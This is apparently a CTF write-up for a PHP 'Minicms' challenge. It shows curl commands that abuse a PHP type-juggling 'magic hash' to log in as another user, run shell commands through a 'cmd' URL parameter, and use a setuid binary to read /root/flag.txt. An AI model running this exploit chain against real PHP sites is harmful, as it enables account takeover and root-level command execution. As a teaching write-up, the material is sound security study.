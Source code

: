 ### Minicms

We found this web app where users host a simple CMS together.
There's something strange about the way they handle their users.

Btw, we **compared** minicms to wordpress, and it's much better!

### Solution

Let's browse through the website to find something useful

```bash
curl http://localhost:8000/users
curl http://localhost:8000/users.json
```

These two endpoints show us the user list, in `users.json` is more verbose as there are password hashes as well, which tells us perhaps user passwords are checked against these hashes. They are hex strings of length 64, which leads us to think that this may be SHA256.

```json
{
    "id": "1",
    "name": "John",
    "surname": "Doe",
    "email": "john.doe@miniature-cms.com",
    "password": "d6a021954bfa75c3a702d916304fcaa96d9a7af6097af1845cbed4d663c3cc14"
}
```

Out of all hashes one stands out the most

```json
{
    "id": "13",
    "name": "Leo",
    "surname": "White",
    "email": "leo.white@miniature-cms.com",
    "password": "0e15912394876120948217340912387412309482137409128742039484444444"
}
```

Hash used by Leo White consists of `0e` followed by 62 digits. 

```bash
curl localhost:8000 -v

< HTTP/1.1 200 OK
< Host: localhost:8000
< Date: Mon, 19 May 2025 05:24:43 GMT
< Connection: close
< X-Powered-By: PHP/8.0.30
< Content-type: text/html;charset=UTF-8
```

Now we are sure the website uses PHP as an underlying backend technology. Let's try to log in using type juggling vulnerability.

```plaintext
| forged password | ---(SHA256)---> | 0e... |
```

Which is then understood by PHP as scientific notation `0^... = 0`. A list of passwords with this feature can, for example, be seen [here](https://github.com/spaze/hashes/blob/master/sha256.md).

```bash
$ curl -X POST http://localhost:8000/auth/login -H "Content-Type: application/json" -d '{"email": "leo.white@miniature-cms.com", "password": "jF7qQUmx70"}'
{"message":"Login successful","token":"120349812450928137590234857230945823745"}
```

We now have a token and can use the `/files` endpoint

```bash
curl -X POST "http://localhost:8000/files?cmd=ls%20/home/minicms/%20&token=120349812450928137590234857230945823745" 
curl -X POST "http://localhost:8000/files?cmd=ls%20-lah%20/home/minicms/%20&token=120349812450928137590234857230945823745"
```

One of the files in home directory has the suid bit set

```bash
-rwsr-xr-x 1 root    root     17K May  9 18:23 file_JeqsmJ6xwH.bin
```

Let's use it to our advantage:

```bash
curl -X POST "http://localhost:8000/files?cmd=%2Fhome%2Fminicms%2Ffile_JeqsmJ6xwH.bin%20\"cat%20%2Froot%2Fflag.txt\"&token=120349812450928137590234857230945823745"
<pre>BtSCTF{juggl3_php_qu173_4444w3s0m3}</pre>%   
```

We obtain the flag:

```bash
<pre>BtSCTF{juggl3_php_qu173_4444w3s0m3}</pre>
```
